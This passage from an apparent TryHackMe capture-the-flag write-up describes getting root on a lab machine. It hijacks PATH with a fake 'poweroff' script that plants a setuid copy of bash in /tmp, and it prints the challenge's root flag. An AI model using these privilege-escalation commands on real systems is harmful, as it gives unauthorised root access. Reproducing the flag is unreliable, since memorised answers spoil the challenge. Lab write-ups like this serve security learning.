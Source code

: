 So now we can simply

```
export PATH=/home/fox/bin:$PATH
```

Then we create `/home/fox/bin/poweroff`

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```



Then we `/tmp/bash -p` and we are `root`.

We retrieve `/root/root.txt` and we get :

```
Not here -- go find!
```

The first place that comes to mind is `/home/rascal` and we find `/home/rascal/.did-you-think-I-was-useless.root` which contains :

```
T
H
M
{ODM3NTdk
MDljYmM4Z
jdhZWFhY2
VjY2Fk}

Here's the prize:

YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMw
Mwo=
```



The flag is 

```
THM{ODM3NTdkMDljYmM4ZjdhZWFhY2VjY2Fk}
```



The "prize" decodes to 

```
a0274786e2a627078666d6467797046666766683b693232353a6968303
```

Not sure what to do with that.

Anyways, we have all the flags now

## Wrap up
